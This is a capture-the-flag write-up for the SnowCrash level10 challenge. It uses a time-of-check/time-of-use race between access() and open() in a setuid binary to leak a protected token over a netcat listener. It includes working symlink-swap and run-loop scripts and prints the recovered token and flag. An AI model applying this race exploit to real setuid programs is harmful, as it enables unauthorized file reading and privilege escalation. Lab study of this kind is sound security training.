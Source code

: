 # 1st Step  
List files in level10 user home directory to find `level10` executable and `token` file :  
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
```  
If we look at the executable with strings :  
```
level10@SnowCrash:~$ strings level10
[...]
open
access
[...]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
level10@SnowCrash:~$
```  
The executable check if we have the rights to read the file with `access` then try to send it to a server and display its content but we have not the necessary rights on the token file.  
```
level10@SnowCrash:~$ man 2 access
[...]
NOTES
       Warning:  Using  access()  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking      
       and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user  ID  to      
       the real ID and then call open(2).)
[...]
level10@SnowCrash:~$
```
We will use the short time between `access` and `open` to change the file to be opened ([race condition exploit](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use))  

A race condition consists in quickly changing the pointing of a symbolic link between a file of which we have the rights and the file of which we don't have, so that `access` will returns us 'true' while `open` will opens the correct file.  
  
# 2nd Step
We have to open three windows of the virtual machine.  
In the first one, listen on the port 6969 with netcat (remember what we saw with `strings` : "Connecting to %s:6969 ..")  
```
level10@SnowCrash:~$ nc -lk 6969
```
-l to specify netcat should listen on specified port, -k to stay listening after each connection.  
In the second window we create a script that spam the creation of a file, delete it, then create a symbolic link to exploit the short time between these two operations :  
```
level10@SnowCrash:~$ cd /tmp
level10@SnowCrash:/tmp$ vim symlink.sh
level10@SnowCrash:/tmp$ cat symlink.sh
#!/bin/bash

while true; do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
done
level10@SnowCrash:/tmp$
```
First we create a file in `/tmp` in hope that `access` will think that we want to open it.  
Then we delete it before we create a symbolic link so that `open` open the `token` file ! Then we remove our symbolic link before create again because of the infinity loop.  
Don't forget to run it ;)
In the last window, we have to create another infinity loop so that we can execute `~/level10` with the `/tmp/link` file that we created again and again with our precedent script.  
```
level10@SnowCrash:/tmp$ vim spam.sh
level10@SnowCrash:/tmp$ cat spam.sh
#!/bin/bash

while true; do
        /home/user/level10/level10 /tmp/link 192.168.1.30
done
```
Replace `192.168.1.30` by your localhost.  
After few seconds you can stop both scripts and go back to the first window where you will see something like that :  
```
[...]
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
^C
level10@SnowCrash:~$
```  
Let's try it  
```
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```  
Level10 passed !